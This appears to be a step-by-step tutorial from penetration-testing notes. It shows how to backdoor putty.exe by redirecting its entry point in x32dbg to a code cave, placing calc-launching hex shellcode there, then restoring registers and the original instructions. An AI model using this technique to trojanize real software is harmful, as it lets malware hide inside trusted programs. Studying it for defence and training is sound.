 #### Backdooring Putty.exe
1. Download putty.exe https://www.putty.org/
2. Start [x32dbg](https://x64dbg.com/) and click `F3`, open Putty. Go to Breakpoints and click the first one.
3. Scroll down till you see a lot of nullbytes and copy and note down the first adress, optional: set a new breakpoint
	- Example: code cave address: `0045C961`
4. Go back to the first Breakpoint and copy the first lines of instructions
```
00454AD0 | 6A 60                    | push 60                                 |
00454AD2 | 68 B07A4700              | push putty.477AB0                       |
00454AD7 | E8 08210000              | call putty.456BE4                       |
00454ADC | BF 94000000              | mov edi,94                              | edi:"LdrpInitializeProcess"
00454AE1 | 8BC7                     | mov eax,edi                             | edi:"LdrpInitializeProcess"
```
5. Select the first first instruction and press `space`. (or right click and select assemble)
6. Change the instruction to `jump 0x` and then past the cave address. Example: `jmp 0x0045C961`
7. Placing shellcode in the nullbyte area will change the stack and pointers etc. Save all the value of the registers and flags to the stack. Set the following instructions in the first nullbytes:
```
pushad
pushfd
```
8. Select the rest of the nullbyte area and copy the following calc32 hex shellcode, right click the nullbyte area and go to Binary --> Edit. Paste it with the curson at the first `00`
```
fc e8 82 00 00 00 60 89 e5 31 c0 64
8b 50 30 8b 52 0c 8b 52 14 8b 72 28
0f b7 4a 26 31 ff ac 3c 61 7c 02 2c
20 c1 cf 0d 01 c7 e2 f2 52 57 8b 52
10 8b 4a 3c 8b 4c 11 78 e3 48 01 d1
51 8b 59 20 01 d3 8b 49 18 e3 3a 49
8b 34 8b 01 d6 31 ff ac c1 cf 0d 01
c7 38 e0 75 f6 03 7d f8 3b 7d 24 75
e4 58 8b 58 24 01 d3 66 8b 0c 4b 8b
58 1c 01 d3 8b 04 8b 01 d0 89 44 24
24 5b 5b 61 59 5a 51 ff e0 5f 5f 5a
8b 12 eb 8d 5d 6a 01 8d 85 b2 00 00
00 50 68 31 8b 6f 87 ff d5 bb f0 b5
a2 56 68 a6 95 bd 9d ff d5 3c 06 7c
0a 80 fb e0 75 05 bb 47 13 72 6f 6a
00 53 ff d5 63 61 6c 63 2e 65 78 65
00
```
9. Save the changes with `ctrl p`, click "Select All" and "Patch File". Save it as as a different file and run it. Calc.exe will execute!
10. But putty.exe won't run and the process will stop, even though calc.exe spawns. Set a breakpoint at every call by pressing `F2` on every line with `call`.
11. Run though the code till calc.exe spawns and add a comment to the last `call` which spawned calc.exe. Then continue till it exits and change the last call that exited.
12. Select a adress in the nullbyte area. For example `0045CA27`. Change the push before the last call by pressing `space` to `jmp 0x0045CA27`
13. Restore the state of the registers and flags. Set the following instructions at the adress of `0045CA27` and below
```
popfd
popad
```
14. Restore the first two instructions of step 5. Copy the bytes below and select the next empty nullbyte area, click "Binary" -> "Edit" and paste it.
```
6A 60 68 B0 7A 47 00
```